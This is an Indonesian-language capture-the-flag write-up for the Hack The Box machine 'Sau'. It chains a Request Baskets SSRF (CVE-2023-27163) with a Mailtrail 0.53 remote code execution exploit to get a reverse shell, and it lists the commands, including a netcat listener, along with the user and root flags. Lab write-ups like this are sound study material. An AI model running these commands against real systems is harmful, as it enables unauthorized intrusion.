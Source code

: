 # Sau  
**SOLVED : 13 SEPT | 2023**  


## nmap
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/fe6b7754-9647-4603-a391-2710a78c4113)
  
```
nmap 10.10.11.224 -p- -sVC  --min-rate 1000
```
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/76a92f3a-8783-4a05-9465-faa647c0527f)  
Port yang open di **22** dan **55555**, maka dicoba diakses pada `10.10.11.224:55555`  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/f72067ae-be68-42ee-9c60-37a7bbbfb02e)  
  
## exploit
1. Pertama-tama dicoba untuk mengakses `10.10.11.224:55555` yang ternyata diarahkan kedalam sebuah "Request Baskets" dengan versi **1.2.1**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c142b35b-30f1-4c2e-b9ad-63e7abc44d70)  

2. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Request Baskets" dengan versi **1.2.1**, yaitu pada (CVE-2023-27163), disini kerentanannya adalah kemungkinan dilakukannya **Server-Side Request Forgery (SSRF)**  
   ```md
   # (CVE-2023-27163)
   Attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.
   Source : https://github.com/entr0pie/CVE-2023-27163
   ```
3. Dari sini, saya menggunakan tools untuk melakukan exploitasi dengan menggunakan https://github.com/entr0pie/CVE-2023-27163. Tools ini membantu untuk mengakses **port 80** yang sebelumnya berstatus **http filtered**.  
   Commands :
   ```
   ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
   ```
   
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/0f7b1fee-14fd-4498-9b5b-72f9184f5c40)
     
   Masukan token sesuai dengan yang diterakan pada tools.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/2c264771-06dc-43a4-ad9f-2c9d311ff997)
     
   Coba untuk mengakses `10.10.11.224:55555/qsaeyb` yang sebenarnya akan diarahkan pada **http** yakni di port 80.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f2642f0-346b-41d9-b594-fa93ef88110e)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/8c6b244b-dbaf-4cce-a92a-051c01c69dca)  
   Dapat dilihat pada website ini menampilkan situs **Mailtrail (v0.53)**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a964462b-83ac-47c3-984e-6a037e2b1153)
   Request juga tertangkap pada web sebagaimana fungsi asli dari "Request Baskets".  

4. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Mailtrail" dengan versi **0.53**, yaitu dapat dilakukan "Unauthenticated Remote Code Execution Exploit"
5. Dari sini, saya kembali menggunakan tools dari https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53 untuk melakukan exploitnya
   Command yang saya gunakan adalah  
   ```
   nc -lvnp 8333
   python3 exploit.py 10.10.16.42 8333 http://10.10.11.224:55555/qsaeyb/login
   ```
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/d35f770f-e674-4ced-81d3-692c825cfe44)  
   Jika belum melakukan _listen_ maka akan menuliskan "Login Failed" sama halnya dengan jika mengakses `http://10.10.11.224:55555/qsaeyb/login`  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c3629ccc-d094-4f24-bb4c-a019cb1ec9b9)
6. Setelah berhasil masuk, maka dilakukan pencarian _user.txt_
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a3be1d70-5eda-410b-843f-813eb7260985)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/39e74b81-b93f-484d-9f99-499dc0a1d428)  
   **USER FLAG : 22366e50cf5e2f0f6ccceacadf92fef1**

![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/e99f44e4-06f4-4afe-8c8e-fa155c20b8bc)  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b7d58424-7d33-459c-a6e6-ee486938422e)  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b3e68dba-da9f-4449-993f-e8c77ef00190)  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f33f1ac-099e-4983-966c-c0a2f249ce42)

**ROOT FLAG : af1d5d215f180ea877ca659d9c7cdf88**
